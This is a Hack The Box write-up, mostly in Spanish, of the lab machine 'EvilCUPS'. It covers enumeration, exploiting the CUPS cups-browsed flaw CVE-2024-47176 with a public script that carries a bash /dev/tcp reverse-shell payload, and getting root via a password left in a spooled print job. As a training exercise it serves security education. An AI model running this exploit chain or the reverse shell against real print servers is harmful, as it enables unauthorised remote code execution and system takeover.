









+++
author = "Andrés Del Cerro"
title = "Hack The Box: EvilCUPS Writeup | Medium"
date = "2024-10-02"
description = ""
tags = [
    "HackTheBox",
    "EvilCUPS",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "CUPS Enumeration",
    "Abusing CVE-2024-47176",
    "CVE-2024-47176",
    "Predictable File Name",
    "Information Disclosure"
]

+++

# Hack The Box: EvilCUPS Writeup

Welcome to my detailed writeup of the medium difficulty machine **"EvilCUPS"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.10.11.40 --ulimit 5000 -g
10.10.11.40 -> [22,631]
```

```console
$ nmap -p22,631 -sCV 10.10.11.40 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 19:45 CEST
Nmap scan report for 10.10.11.40
Host is up (0.094s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Home - CUPS 2.4.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.95 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 10.10.11.40 --min-rate 5000 -sU -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 19:46 CEST
Nmap scan report for 10.10.11.40
Host is up (0.094s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
685/udp   closed mdc-portmapper
688/udp   closed realm-rusd
8001/udp  closed vcom-tunnel
20411/udp closed unknown
21111/udp closed unknown
23758/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.05 seconds
```


Del escaneo inicial podemos deducir que el punto de entrada no va a ser como la típica máquina de HTB que suele hacerse mediante un servicio web.

Vemos que está abierto el puerto 631 que corresponde al servicio `CUPS 2.4`

# ¿Qué es CUPS?
CUPS (Common Unix Printing System) es un sistema de impresión modular utilizado en sistemas operativos basados en Unix y similares a Unix (como Linux y macOS) para gestionar la impresión en impresoras locales y de red. CUPS actúa como un intermediario entre las aplicaciones y los dispositivos de impresión, facilitando el envío de trabajos de impresión y gestionando los controladores de impresoras.

Ahora bien, CUPS se divide en varios componentes, como la mayoría de las cosas en la informática.

- **Servidor CUPS**: Es el núcleo del sistema, responsable de recibir trabajos de impresión, encolarlos y enviarlos a la impresora adecuada. Corre como un servicio en segundo plano (`cupsd`).
    
- **Clientes CUPS**: Las aplicaciones envían trabajos de impresión al servidor CUPS utilizando un protocolo estándar como IPP (Internet Printing Protocol). Los clientes pueden estar en la misma máquina o en otra conectada a través de la red.
    
- **Filtros de CUPS**: Los filtros son responsables de convertir los trabajos de impresión al formato adecuado que entienda la impresora. Estos filtros incluyen conversores de formatos como PDF, PostScript, o PCL, adaptando el contenido de impresión según el modelo y tipo de impresora.
    
- **Controladores de impresoras**: Son archivos de software que permiten que el sistema operativo se comunique correctamente con la impresora. Estos controladores incluyen información específica del dispositivo, como el lenguaje de la impresora y sus capacidades (resolución, bandejas de papel, tipos de tinta, etc.).
    
- **Backends de CUPS**: Los backends son interfaces que CUPS utiliza para comunicarse con las impresoras a través de diferentes protocolos, como:
    
    - **USB**: Para impresoras conectadas directamente al sistema.
    - **IPP**: Protocolo principal utilizado por CUPS para imprimir sobre la red.
    - **LPD/LPR**: Protocolo más antiguo de impresión en red.
    - **SMB**: Protocolo utilizado para impresoras compartidas en redes Windows.
- **Interfaz web de administración**: CUPS incluye una interfaz web accesible a través de `http://localhost:631` que permite a los administradores configurar impresoras, gestionar trabajos de impresión y monitorear el estado del sistema.

Y por último también deberíamos saber el flujo de trabajo de CUPS.

- **Recepción del trabajo de impresión**: Una vez que el usuario envía un trabajo de impresión desde una aplicación, CUPS recibe el trabajo en formato nativo (por ejemplo, PDF o PostScript).
    
- **Conversión del trabajo de impresión**: CUPS utiliza su sistema de filtros para convertir el trabajo de impresión al formato requerido por la impresora, asegurándose de que el trabajo sea compatible con las características específicas del dispositivo.
    
- **Enrutamiento del trabajo**: Dependiendo de la configuración de la impresora, CUPS puede enviar el trabajo a una impresora local o a una impresora en red. Utiliza el backend apropiado para comunicarse con la impresora, asegurándose de que el trabajo llegue correctamente.
    
- **Cola de impresión**: CUPS organiza los trabajos en una cola, permitiendo a los administradores priorizar, pausar o cancelar trabajos. Si una impresora está ocupada, el trabajo se mantiene en la cola hasta que pueda ser procesado.
    
- **Monitoreo**: CUPS ofrece monitoreo en tiempo real del estado de las impresoras y los trabajos de impresión. Los administradores pueden acceder al estado de la impresora, recibir notificaciones de errores, niveles de tinta y papel, y más.
    
- **Autenticación y permisos**: CUPS incluye mecanismos de autenticación y control de acceso, permitiendo que solo usuarios autorizados puedan gestionar impresoras y trabajos de impresión. Esto es importante en entornos multiusuario o empresariales.

# Confirming CVE-2024–47176
Hace unos días se publicó un CVE donde se demostraba que CUPS era vulnerable a RCE de forma no autenticada, es decir, que cualquier atacante podría ejecutar código remoto en tu servidor de impresión.

Vamos a utilizar [este PoC](https://github.com/GO0dspeed/spill) solo para saber si la máquina víctima es vulnerable.

Antes de nada, también me he dado cuenta de una cosa, y es que normalmente CUPS utiliza IPP por el puerto 631 por UDP pero el escaneo anterior no muestra que ese puerto esté abierto.

Pero haciendo una segunda comprobación, vemos que probablemente esté abierto.
```console
$ nmap -p630,631 -sU 10.10.11.40
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 19:55 CEST
Nmap scan report for 10.10.11.40
Host is up (0.095s latency).

PORT    STATE         SERVICE
630/udp closed        rda
631/udp open|filtered ipp

Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds
```

Nos clonamos el repositorio anterior.
```console
$ git clone https://github.com/GO0dspeed/spill                   19:55:27 [23/102]
Cloning into 'spill'...                                                                   
remote: Enumerating objects: 36, done.                                                    
remote: Counting objects: 100% (36/36), done.                                             
remote: Compressing objects: 100% (24/24), done.                                          
remote: Total 36 (delta 14), reused 28 (delta 9), pack-reused 0 (from 0)                  
Receiving objects: 100% (36/36), 7.75 KiB | 7.75 MiB/s, done.                             
Resolving deltas: 100% (14/14), done.
```

Compilamos.
```console
$ go build .                                                                      
go: downloading github.com/schollz/progressbar/v3 v3.16.0                                 
go: downloading github.com/mitchellh/colorstring v0.0.0-20190213212951-d06e56a500db       
go: downloading golang.org/x/term v0.24.0                                                 
go: downloading github.com/rivo/uniseg v0.4.7                                             
go: downloading golang.org/x/sys v0.25.0 
```

Lanzando el script en go, podemos concluir con que efectivamente, la máquina víctima es vulnerable.
```console
$ ./spill -ip 10.10.11.40 -port 631 -dest 10.10.14.129 -destport 8081

          . .
          .. . *.
- -_ _-__-0oOo
 _-_ -__ -||||)
    ______||||______
~~~~~~~~~~^""' Spill

2024/10/02 19:57:54 Starting HTTP server on port 8081...
Packet Progress 100% |████████████████████████████████████████| 
2024/10/02 19:57:55 Received POST request: 10.10.11.40:38886
2024/10/02 19:57:55 Received POST request: 10.10.11.40:38898
2024/10/02 19:57:56 Received POST request: 10.10.11.40:38914
```

Ahora,¿ como lo explotamos?

# Exploiting CVE-2024–47176 -> Foothold
Leyendo el CVE vemos que el componente `cups-browsed` es el responsable de descubrir impresoras en la red y añadirlas al sistema, el servicio utiliza el puerto 631/UDP el cual hemos confirmado que esté abierto, y este servicio acepta paquetes personalizados de cualquier fuente. 
Si sumamos esto a otro CVE asociados (para conseguir la ejecución remota de comandos necesitamos concatenar varios CVE's) `CVE-2024-47076, CVE-2024-47175`, podemos aprovecharnos de que no se valida los atributos IPP desde un servidor malicioso, por lo cual podríamos inyectar información maliciosa en el sistema y crear un archivo PPD temporal.

Ahora solo faltaría que de alguna forma, ejecutando este archivo PPD consigamos ejecutar un comando, y esto es fácil aprovechándonos del último CVE `CVE-2024-47177` ya que la información inyectada en el parámetro ``FoomaticRIPCommandLine``  del archivo PPD, CUPS pasa esta data a `foomatic-rip` que es un comando utilizado para procesar el documento, esto significa que cuando se intenta imprimir un documento, el comando del atacante es ejecutado.

Analizando el CUPS, vemos una impresora.


Aunque sabiendo como funciona la vulnerabilidad, tenemos que hacer creer al servidor que ha descubierto una impresora mandando el paquete UDP.

Esta máquina es del gran `ippsec` y también ha escrito un PoC para realizar esta explotación.
https://github.com/IppSec/evil-cups

Nos clonamos el repo 
```console
$ git clone https://github.com/IppSec/evil-cups
Cloning into 'evil-cups'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), done.
Resolving deltas: 100% (1/1), done.
```

Y instalamos las dependencias (solo es una)
```console
$ pip3 install -r requirements.txt
```

Al ejecutar el exploit...
```console
$ python3 evilcups.py 10.10.14.129 10.10.11.40 "bash -c 'bash -i >& /dev/tcp/10.10.14.129/443 0>&1'"
IPP Server Listening on ('10.10.14.129', 12345)
Sending udp packet to 10.10.11.40:631...
Please wait this normally takes 30 seconds...
20 elapsedB2
target connected, sending payload ...

target connected, sending payload ...
204 elapsed
```

Y no recibimos nada.


Como bien he explicado antes, necesitamos que la impresora maliciosa intente imprimir algún documento para que se utilice `foomatic-rip` y se ejecute el comando malicioso.

==A partir de este momento la IP de mi máquina pasa a ser la 10.10.14.73 ya que tuve problemas con la VPN, esto es lo que pasa si no pagas el VIP.==

Si ahora comprobamos que impresoras existen en el panel de CUPS encontramos lo siguiente.


Ahora mandamos a la "impresora" maliciosa que imprima una página de prueba.


Y conseguimos acceso a la máquina víctima.
```console
(remote) lp@evilcups:/$ id
uid=7(lp) gid=7(lp) groups=7(lp)
```

Y podemos leer la flag de usuario.
```console
(remote) lp@evilcups:/home/htb$ cat user.txt 
2d5d6182acabe95...
```

# Privilege Escalation
Hemos ganado acceso como el usuario `lp` esto significa que deberíamos poder leer todas las impresiones realizadas con CUPS.

Y antes, me di cuenta que en `Jobs` podemos listar todas las impresiones hechas y vemos una que no hemos realizado nosotros.


Ahora solo debemos de averiguar donde se guardan estas impresiones.

Una simple búsqueda en Google nos revela la ruta.


Pero vemos que en este directorio no tenemos permiso de lectura, solo de ejecución.
```console
(remote) lp@evilcups:/var/spool$ ls -la
total 24
drwxr-xr-x  6 root root 4096 Sep 30 19:55 .
drwxr-xr-x 11 root root 4096 Sep 28 10:02 ..
drwxr-xr-x  3 root root 4096 Sep 28 10:02 cron
drwx--x---  3 root lp   4096 Oct  2 12:55 cups
drwxr-xr-x  2 lp   lp   4096 Sep 30 19:55 lpd
lrwxrwxrwx  1 root root    7 Sep 27 21:03 mail -> ../mail
drwx------  2 root root 4096 Feb 22  2023 rsyslog
```

Esto igualmente no significa que no podamos leer los archivos de dentro. Deberíamos tener permiso de lectura de los archivos por defecto, aunque por alguna razón, se han modificado los permisos de esta carpeta.

Buscando un poco podemos saber cual es el nombre de estos archivos gracias a [este post de StackOverflow](https://serverfault.com/questions/911797/where-does-cups-keep-print-job-information)

Y sabemos que los archivos suelen llamarse
`dxxxxxx-xxx`
Donde los primeros 6 caracteres corresponden al ID, en este caso sería `000001` ya que no existe otro documento impreso, y los últimos tres caracteres corresponden a los documentos/hojas impresas, en este caso queremos pensar que es solo una, por lo cual sería `001`.

Realmente, los archivos suelen llamarse `dxxxxx-xxx`, así que haciendo un par de pruebas descubrimos que existe el "job" `d00001-001`


Esto es un documento de texto.
```console
(remote) lp@evilcups:/var/spool/cups$ file d00001-001
d00001-001: PostScript document text conforming DSC level 3.0
```

Al final del documento encontramos una string interesante, `(Br3@k-G!@ss-r00t-evilcups)`


Igualmente, podemos descargarnos este archivo haciendo uso de la función `download` de `pwncat-cs`
```console
(local) pwncat$ download /var/spool/cups/d00001-001
/var/spool/cups/d00001-001 ━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 12.1/12.1 kB • ? • 0:00:00
[21:19:47] downloaded 12.12KiB in 1.56 seconds                              download.py:71
```

Y si abrimos este documento vemos la credencial `Br3@k-G!@ss-r00t-evilcups`.


Y con esta credencial podemos iniciar sesión por SSH como el usuario `root`
```console
$ ssh root@10.10.11.40
root@10.10.11.40's password: 
Linux evilcups 6.1.0-25-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.106-3 (2024-08-26) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  1 14:29:03 2024 from 10.10.14.8
root@evilcups:~# 
```

Podemos leer la flag de `root`
```console
root@evilcups:~# cat root.txt 
7cd1306e88c3e5c...
```

¡Y ya estaría!

Happy Hacking! 🚀